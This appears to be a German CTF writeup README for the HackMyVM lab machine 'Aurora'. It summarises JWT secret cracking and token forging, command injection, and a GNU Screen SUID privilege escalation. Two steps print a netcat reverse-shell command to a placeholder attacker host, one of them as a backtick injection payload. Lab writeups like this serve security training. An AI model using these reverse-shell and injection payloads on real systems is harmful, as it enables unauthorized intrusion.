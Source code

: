 # Aurora - HackMyVM Writeup

![Aurora VM Icon](Aurora.png)

Dieses Repository enthält das Writeup für die HackMyVM-Maschine "Aurora" (Schwierigkeitsgrad: Easy), erstellt von DarkSpirit. Ziel war es, initialen Zugriff auf die virtuelle Maschine zu erlangen und die Berechtigungen bis zum Root-Benutzer zu eskalieren.

## VM-Informationen

*   **VM Name:** Aurora
*   **Plattform:** HackMyVM
*   **Autor der VM:** DarkSpirit
*   **Schwierigkeitsgrad:** Easy
*   **Link zur VM:** [https://hackmyvm.eu/machines/machine.php?vm=Aurora](https://hackmyvm.eu/machines/machine.php?vm=Aurora)

## Writeup-Informationen

*   **Autor des Writeups:** Ben C.
*   **Datum des Berichts:** 03. Mai 2023
*   **Link zum Original-Writeup (GitHub Pages):** [https://alientec1908.github.io/Aurora_HackMyVM_Easy/](https://alientec1908.github.io/Aurora_HackMyVM_Easy/)

## Kurzübersicht des Angriffspfads

Der Angriff auf die Aurora-Maschine umfasste mehrere Phasen:

1.  **Reconnaissance:**
    *   Identifizierung der Ziel-IP (`192.168.2.122`) mittels `arp-scan`.
    *   Ein `nmap`-Scan offenbarte zwei offene Ports: SSH (22, OpenSSH 8.4p1) und HTTP (3000, Node.js Express framework).
2.  **Web Enumeration (Node.js App):**
    *   Die Wurzel `/` auf Port 3000 lieferte einen 404-Fehler. Ein Versuch, RCE via Prototype Pollution mit einem Cookie zu erlangen, schlug fehl.
    *   `ffuf` wurde verwendet, um API-Endpunkte zu finden. `/login`, `/execute` und `/LogIn` antworteten mit `401 Unauthorized`.
    *   Der Endpunkt `/register` wurde gefunden. Eine POST-Anfrage an `/register` ohne Daten ergab "The "role" field is not valid".
    *   Fuzzing des `role`-Parameters mit `ffuf` zeigte, dass `role: user` zu einem `500 Internal Server Error` führte (was auf fehlende andere Felder hindeutete) und `role: admin` zu `401 Unauthorized`.
    *   Eine Registrierung mit `{"role":"user", "username":"ben", "password":"ben"}` war erfolgreich. Ein Versuch, sich als `admin` zu registrieren, schlug fehl ("Username already exists").
3.  **JWT Exploitation (Secret Cracking & Forging):**
    *   Nach erfolgreichem Login (impliziert) wurde ein JSON Web Token (JWT) erhalten.
    *   Der JWT (`eyJhbG...0bMg`) wurde mit `jwt.io` analysiert (Header: HS256, Payload: `{"username": "ben", "role": "user", ...}`).
    *   Das JWT-Secret wurde mit `john` und der `rockyou.txt`-Wortliste als `nopassword` geknackt.
    *   Ein neuer JWT wurde mit dem Payload `{"username": "admin", "role": "admin", ...}` und dem Secret `nopassword` gefälscht.
4.  **Initial Access (www-data RCE):**
    *   Ein Versuch, den `/execute`-Endpunkt mit dem gefälschten Admin-JWT und `{"cmd":"id"}` zu nutzen, schlug fehl (TypeError, "file" argument erwartet).
    *   `ffuf` wurde verwendet, um den korrekten Parameternamen im JSON-Body für `/execute` zu finden: `command`.
    *   Mit dem Admin-JWT und `{"command":"id"}` konnte RCE als Benutzer `www-data` erlangt werden.
    *   Eine Reverse Shell wurde über die RCE-Schwachstelle mit `nc -e /bin/bash [ATTACKER_IP] [PORT]` initiiert und stabilisiert.
5.  **Privilege Escalation (www-data -> doro via Command Injection):**
    *   Die `.bash_history` von `www-data` enthielt den Befehl `sudo -u doro /usr/bin/python3 /home/doro/tools.py --ping`.
    *   Das Skript `/home/doro/tools.py` hatte eine Command Injection-Schwachstelle in der `ping()`-Funktion (unzureichende Filterung von Benutzereingaben, die an `os.system` übergeben wurden).
    *   Die Schwachstelle wurde ausgenutzt, indem bei der IP-Abfrage des Skripts ein Payload mit Backticks (``` `nc -e /bin/bash [ATTACKER_IP] [PORT]` ```) eingegeben wurde, was zu einer Shell als Benutzer `doro` führte.
6.  **Privilege Escalation (doro -> root via Screen Exploit):**
    *   Als `doro` wurde die User-Flag gelesen. Ein SSH-Schlüsselpaar wurde gefunden, und durch Umbenennen von `id_rsa.pub` zu `authorized_keys` wurde SSH-Zugriff als `doro` ermöglicht.
    *   `linpeas.sh` wurde ausgeführt und identifizierte `/usr/bin/screen` (Version 4.5.0) als SUID-Root und potenziell verwundbar.
    *   Ein bekannter Exploit für GNU Screen 4.5.0 (CVE-2017-5229), der `/etc/ld.so.preload` manipuliert, wurde verwendet, um eine Root-Shell zu erlangen.
7.  **Flags:**
    *   Die User-Flag wurde aus `/home/doro/user.txt` gelesen.
    *   Die Root-Flag wurde aus `/root/root.txt` gelesen.

## Verwendete Tools

*   `arp-scan`
*   `nmap`
*   `curl`
*   `nikto`
*   `python` (Payload Generator, Shell/HTTP Server)
*   `gobuster`
*   `ssh-keyscan`
*   `msfconsole` (ssh_enumusers)
*   `ffuf`
*   Web Browser / `jwt.io`
*   `vi` / Editor
*   `john`
*   `nc` (netcat)
*   `stty`
*   `ls`
*   `cat`
*   `sudo`
*   `find`
*   `ss`
*   `chmod`
*   `wget`
*   `linpeas.sh`
*   `gcc`
*   `screen`
*   `id`

## Identifizierte Schwachstellen (Zusammenfassung)

*   **Schwaches JWT-Secret:** Das HS256-Secret für JSON Web Tokens war `nopassword` und konnte leicht geknackt werden, was das Fälschen von Admin-Tokens ermöglichte.
*   **Node.js Command Injection:** Der `/execute`-Endpunkt der Node.js-Anwendung war anfällig für Command Injection, nachdem ein gültiger (gefälschter) Admin-JWT bereitgestellt wurde. Der verwundbare Parameter war `command` im JSON-Body.
*   **Unsichere `sudo`-Konfiguration / Python Command Injection:** Der Benutzer `www-data` konnte ein Python-Skript (`/home/doro/tools.py`) als Benutzer `doro` ausführen. Dieses Skript enthielt eine Command Injection-Schwachstelle in der `ping`-Funktion.
*   **Veraltete `screen`-Version mit SUID-Bit:** `/usr/bin/screen` war Version 4.5.0, SUID-Root gesetzt und anfällig für eine bekannte lokale Privilege Escalation (CVE-2017-5229).

## Flags

*   **User Flag (`/home/doro/user.txt`):** `ccd839df5504a7ace407b5aeca436e81`
*   **Root Flag (`/root/root.txt`):** `052cf26a6e7e33790391c0d869e2e40c`

---

**Wichtiger Hinweis:** Dieses Dokument und die darin enthaltenen Informationen dienen ausschließlich zu Bildungs- und Forschungszwecken im Bereich der Cybersicherheit. Die beschriebenen Techniken und Werkzeuge sollten nur in legalen und autorisierten Umgebungen (z.B. eigenen Testlaboren, CTFs oder mit expliziter Genehmigung) angewendet werden. Das unbefugte Eindringen in fremde Computersysteme ist eine Straftat und kann rechtliche Konsequenzen nach sich ziehen.

---
*Bericht von Ben C. - Cyber Security Reports*

